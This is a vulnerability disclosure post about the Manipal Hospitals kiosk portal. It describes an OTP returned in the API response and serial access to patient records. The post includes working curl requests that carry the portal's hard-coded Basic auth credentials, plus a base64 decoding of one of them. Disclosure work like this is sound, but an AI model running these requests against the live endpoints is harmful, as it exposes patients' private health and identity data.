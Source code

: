 ```yaml
---
title: Manipal Hospitals pvt ltd vulnerability 2024
date:
  created: 2025-08-14
  updated: 2025-09-12
---
```


The Manipal hospital pvt ltd has a mandatory registration process on its kiosk <https://kiosk.manipalhospitals.com>
for OPD consultations.
The portal collects a lot of information within minutes but the same personal data deletion takes 3-4 months.

The portal had numerous vulnerabilities that allowed to get the user's personal data in a serial access. One API provided the login OTP back to the person logging-in. In others, data was "protected" just by a static `Authorization` header exposed in the front-end code.

Summary of the vulnerabilities:

| Sr | API  | Date reported | Date fixed | Days taken | CERT-in reference number |
|----|------|---------------|------------|------------|--------------------------|
| 1  | [KioskOtpVerification](#1-kioskotpverification) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |
| 2  | [PatientVisitHistory](#2-patientvisithistory) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |
| 3  | [PatDetailsByMobileNo](#3-patdetailsbymobileno) | 27 December 2024 | Never reverted | more than 60 days | 91742724 |

Root cause in [OWASP](https://cheatsheetseries.owasp.org/index.html) terms:

- A01 2021 Broken Access Control: CWE-35 Path Traversal, CWE-284 Improper Access Control, CWE-285 Improper Authorization
- A02 2021 Cryptographic Failures: CWE-321 Use of Hard-coded Cryptographic Key
- A04 2021 Insecure Design: Insecure Direct Object Reference
- A07 2021 Identification and Authentication Failures: CWE-287 Improper Authentication, CWE-613 Insufficient Session Expiration

<!-- more -->

### 1. KioskOtpVerification

This API is used to send an OTP to the given phone number. This API defeated
the point of OTP verification by sending back the OTP in the API response.

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl -v 'https://kiosk.manipalhospitals.com/ManipalKioskApi/api/OTP/KioskOtpVerification' -X POST -H \
'Authorization: Basic RW1wdWxzZURldjprXzNHNVtrKjF9NkBpMic=' \
--data-raw '{"mobileNumber":"91$$$$$$$$$$","hospitalCode":"MHJ"}' \
-o otp_exposed_$timest.json
```

???+ note "Sample Response"
    ```json linenums="1" hl_lines="3"
    ---8<--- "docs/vuln/posts/content_manipal/manipal_vuln_1.json"
    ```

### 2. PatientVisitHistory

This endpoint allowed serial access (increasing UHID) to a patient's visit history by relying on
a static `Authorization` header.

The header can be decoded to the following

```bash
echo RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF | base64 -d
EmpulseHIS:')3Qc=40I;<7HtWE
```

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl 'https://kiosk.manipalhospitals.com/ManipalDataSync/PatientVisitHistory' -X POST -H \
'Authorization: Basic RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF' \
--data-raw '{"UHID":"MHXXXXXXXX7^01/01/2020^27/12/2024","hospitalCode":"MHB"}'  \
-o pat_vis_his_$timest.json
```

<details>
<summary>Sample Response</summary>
```json linenums="1"
---8<--- "docs/vuln/posts/content_manipal/manipal_vuln_2.json"
```
</details>

### 3. PatDetailsByMobileNo

This API accepted a phone number and provided the patient details like name, dob, email, gender etc.

The `Authorization` header is the same as in the above vulnerability.

```bash title="sample_script.sh" linenums="1"
timest=$(date '+%F_%T')
curl -v 'https://kiosk.manipalhospitals.com/ManipalDataSync/PatDetailsByMobileNo' -X POST -H \
'Authorization: Basic RW1wdWxzZUhJUzonKTNRYz00MEk7PDdIdFdF' \
 --data-raw '{"mobileno":"$$$$$$$$$$","locationCode":"MHJ"}' \
-o get_pat_by_mob_$timest.json
```

???+ note "Sample Response"
    ```json linenums="1"
    {
        "ErrorMessage": "null",
        "Message": "SUCCESS",
        "Status": "SUCCESS",
        "PatDetailResp": [
            {
            "Status": "Success",
            "Message": "Success",
            "HospNo": "MH$$$$$$$$7",
            "PatientName": "MR $$$$$$$$ ",
            "DOB": "$$/$$/$$$$",
            "Age": "$$ Yrs",
            "Sex": "$$$$$$$$",
            "MobileNo": "$$$$$$$$$$",
            "Email": "$$$$$$$$@$$$$$.$$$"
            }
        ]
    }
    ```
